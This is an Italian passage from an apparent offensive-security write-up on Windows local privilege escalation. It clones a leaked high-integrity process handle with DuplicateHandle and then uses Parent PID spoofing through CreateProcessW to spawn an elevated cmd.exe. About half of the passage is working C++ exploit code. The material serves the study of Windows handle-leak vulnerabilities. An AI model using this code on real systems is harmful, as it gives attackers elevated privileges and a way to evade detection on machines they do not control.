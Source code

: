 Quest'operazione è abbastanza semplice e, se omettiamo di inserire la logica di controllo degli errori, fattibile in poche righe di codice. Iniziamo con l'aprire il processo che detiene l'handle vulnerabile con il livello di accesso `PROCESS_DUP_HANDLE`, che è il livello di accesso minimo per poter clonare gli handle detenuti dal processo, e successivamente usiamo la funzione [`DuplicateHandle`](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle) per clonare l'handle cui siamo interessati (il cui valore è contenuto nel membro `Handle` della struttura `sysHandle`) e salvarne il valore nella variabile `clonedHandle`.

A questo punto `clonedHandle` conterrà un handle `PROCESS_ALL_ACCESS` a un processo ad alta integrità. Da qui in avanti si segue la procedura standard per creare un nuovo processo (in questo caso `cmd.exe`) che erediti il token dal processo di cui abbiamo l'handle `PROCESS_ALL_ACCESS`. La tecnica utilizzata è un classico esempio di Parent PID spoofing utilizzando la funzione `CreateProcessW`, così come spiegato in [questo post del buon spotless](https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing)

```c++
STARTUPINFOEXW sinfo = { sizeof(sinfo) };
PROCESS_INFORMATION pinfo;
LPPROC_THREAD_ATTRIBUTE_LIST ptList = NULL;
SIZE_T bytes = 0;
sinfo.StartupInfo.cb = sizeof(STARTUPINFOEXA);
InitializeProcThreadAttributeList(NULL, 1, 0, &bytes);
ptList = (LPPROC_THREAD_ATTRIBUTE_LIST)malloc(bytes);
InitializeProcThreadAttributeList(ptList, 1, 0, &bytes);
UpdateProcThreadAttribute(ptList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &clonedHandle, sizeof(HANDLE), NULL, NULL);
sinfo.lpAttributeList = ptList;
std::wstring commandline = L"C:\\Windows\\System32\\cmd.exe";

auto success = CreateProcessW(
	nullptr,
	&commandline[0],
	NULL,
	NULL,
	true,
	EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
	NULL,
	NULL,
	&sinfo.StartupInfo,
	&pinfo);
CloseHandle(pinfo.hProcess);
CloseHandle(pinfo.hThread);
```

Vediamo il tutto in azione 😊
